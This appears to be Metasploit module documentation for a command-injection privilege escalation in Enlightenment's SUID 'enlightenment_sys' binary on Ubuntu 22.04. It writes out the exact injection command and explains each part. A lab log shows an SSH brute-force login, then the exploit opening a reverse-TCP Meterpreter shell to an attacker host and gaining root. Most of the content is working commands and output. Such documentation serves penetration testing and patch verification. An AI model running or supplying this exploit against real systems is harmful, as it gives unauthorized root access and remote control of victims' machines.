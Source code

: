 ## Vulnerable Application

This module exploits a command injection within Enlightenment's
`enlightenment_sys` binary. This is done by calling the mount
command and feeding it paths which meet all of the system
requirements, but execute a specific path as well due to a
semi-colon being used.
This module was tested on Ubuntu 22.04.1 X64 Desktop with
enlightenment 0.25.3-1 (current at module write time)

### Install

At the time of writing, it was possible to `apt install enlightenment` to
get a vulnerable version.

### Main Command Explanation

The main exploit command will look similar to the following (using `/tmp/exploit` as the payload path example):

`/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net`

This can be broken down in to several parts:

1. `/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys`
2. `/bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u)`
3. `"/dev/../tmp/;/tmp/exploit"`
4. `/tmp///net`

The first part calls the vulnerable executable which has `suid` set to root.

The second portion is a standard mount, command. `enlightenment_sys` has a fork in the code
for `mount`, which has the vulnerability in it.

The third portion starts with `/dev/` to prevent the binary from exiting.  It is wrapped in
double quotes, which are later removed by `enlightenment_sys` before running the command
resulting in the command injection.

Lastly `enlightenment_sys` checks that the last parameter is length 6, thus the extra `/`.
It then calls `stat64` on `/tmp///net` and we pass that check.

Now that all the checks have passed and the exploit code should go down the path to a `system`
call. Again, the quotes are removed around `"/dev/../tmp/;/tmp/exploit"` , allowing for the `;`
to be relevant and cause a command injection.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Get a userland shell
4. Do: `use exploits/linux/local/ubuntu_enlightenment_mount_priv_esc`
5. Do: `set session #`
6. Set payload and options for payload as needed
7. Do: `run`
8. You should get a root shell.

## Options

### WritableDir

A directory which is writable to drop our payload in. Defaults to `/tmp`

## Scenarios

### Ubuntu 22.04.1 Desktop with Enlightenment 0.25.3-1

Step 1, get a userland shell

```
resource (enlightenment.rb)> use auxiliary/scanner/ssh/ssh_login
resource (enlightenment.rb)> set username ubuntu
username => ubuntu
resource (enlightenment.rb)> set password ubuntu
password => ubuntu
resource (enlightenment.rb)> set rhosts 192.168.2.31
rhosts => 192.168.2.31
resource (enlightenment.rb)> run
[*] 192.168.2.31:22 - Starting bruteforce
[+] 192.168.2.31:22 - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),134(lxd),135(sambashare) Linux ubuntu2204desktop 5.15.0-43-generic #46-Ubuntu SMP Tue Jul 12 10:30:17 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 1 opened (192.168.2.199:35675 -> 192.168.2.31:22) at 2022-10-01 10:02:53 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Step 2, run exploit

```
resource (enlightenment.rb)> use exploits/linux/local/ubuntu_enlightenment_mount_priv_esc
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
resource (enlightenment.rb)> set session 1
session => 1
resource (enlightenment.rb)> set verbose true
verbose => true
msf exploit(linux/local/ubuntu_enlightenment_mount_priv_esc) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session architecture: 
[*] Started reverse TCP handler on 192.168.2.199:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Found binary: /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
[+] It's set for SUID
[+] The target appears to be vulnerable.
[*] Finding enlightenment_sys
[+] Found binary: /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
[+] It's set for SUID
[*] Writing '/tmp/.7n09J2bt6' (250 bytes) ...
[*] Max line length is 65537
[*] Writing 250 bytes in 1 chunks of 735 bytes (octal-encoded), using printf
[*] Creating folders for exploit
[+] Found binary: /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
[+] It's set for SUID
[*] Launching exploit...
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045348 bytes) to 192.168.2.31
[*] Meterpreter session 2 opened (192.168.2.199:4444 -> 192.168.2.31:54700) at 2022-10-01 10:03:12 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.2.31
OS           : Ubuntu 22.04 (Linux 5.15.0-43-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
